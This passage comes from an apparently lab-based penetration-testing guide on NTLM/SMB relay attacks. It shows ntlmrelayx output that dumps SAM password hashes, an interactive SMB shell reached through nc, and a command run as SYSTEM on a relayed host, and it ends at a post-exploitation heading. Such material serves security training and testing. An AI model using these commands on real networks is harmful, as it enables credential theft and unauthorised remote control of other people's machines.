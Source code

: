 ### 4. Successful Attack Examples

#### Example 1: SAM Dump Success
```
[*] SMBD-Thread-3: Received connection from 10.0.0.25, attacking target smb://10.0.0.35
[*] Authenticating against smb://10.0.0.35 as MARVEL\fcastle SUCCEED
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x60a74a27f6fe13fde77ab1994e3a9424
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:db310d981df37b942c5d3c19e43849c4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
```

#### Example 2: Interactive Shell Access
```
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 10.0.0.25, attacking target smb://10.0.0.35
[*] Authenticating against smb://10.0.0.35 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```

Connect to interactive shell:
```bash
nc 127.0.0.1 11000
# shares
ADMIN$
C$
IPC$
# use C$
# ls
# help
Type help for list of commands
```

#### Example 3: Command Execution
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

Success output:
```
[*] Authenticating against smb://10.0.0.35 as MARVEL\fcastle SUCCEED
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Executed specified command on host: 10.0.0.35
nt authority\system
```

### 5. Post-Exploitation with Gained Credentials

#### Using Impacket PsExec for Direct Shell Access
Once you have valid credentials (from SAM dump or other means):
